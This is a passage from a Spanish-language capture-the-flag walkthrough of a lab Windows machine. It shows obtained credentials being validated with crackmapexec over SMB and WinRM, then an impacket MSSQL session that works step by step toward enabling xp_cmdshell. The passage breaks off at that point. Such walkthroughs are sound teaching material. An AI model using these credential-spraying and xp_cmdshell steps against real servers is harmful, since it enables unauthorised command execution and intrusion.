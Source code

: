 Nuevas credenciales
```bash
mssql-svc:corporate568
```

Procedemos a Validar las Credenciales obtenidas con Crackmapexec
```bash
# crackmapexec smb 10.10.10.125 -u mssql-svc -p 'corporate568' -d WORKGROUP   
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\mssql-svc:corporate568

# crackmapexec smb 10.10.10.125 -u mssql-svc -p 'corporate568' -d WORKGROUP                                                                                                                                  1 ⚙
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\mssql-svc:corporate568 
                                                                                                                                
└─# crackmapexec winrm 10.10.10.125 -u mssql-svc -p 'corporate568' -d WORKGROUP           1 ⚙
WINRM       10.10.10.125    5985   10.10.10.125     [*] http://10.10.10.125:5985/wsman
WINRM       10.10.10.125    5985   10.10.10.125     [-] WORKGROUP\mssql-svc:corporate568
```

Vemos que aun con las dos credenciales no tenemos acceso por winrm
Volvemos a Autenticarnos por mysql-service

# Mssclient.py - Xp_CmdShell

Ejecucion de comandos atraves de la opcion `XP_CMDSHELL` en mysql-service


```bash
# mssqlclient.py 'WORKGROUP/mssql-svc:corporate568'@10.10.10.125 -windows-auth                      130 ⨯
Impacket v0.9.24.dev1+20210827.162957.5aa97fa7 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands

### Paso 1 - Ver el error
SQL> xp_cmdshell "whoami"
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
### Paso 2 - Reconfigurar las opciones avanzadas
SQL> sp_configure "show advanced options", 1
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
### Paso 3 - Intento Erroneo de Reconfigurar la opcion XP_CMDSHELL
SQL> sp_configure "xp_cmdshell", 1
[-] ERROR(QUERIER): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
### Paso 4 - Re Seteamos el habilitar que se muestren las opciones avanzadas
SQL> sp_configure "show advanced", 1
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
### Paso 5 - Configuramos la opcion xp_cmdShell para que este habilitada
```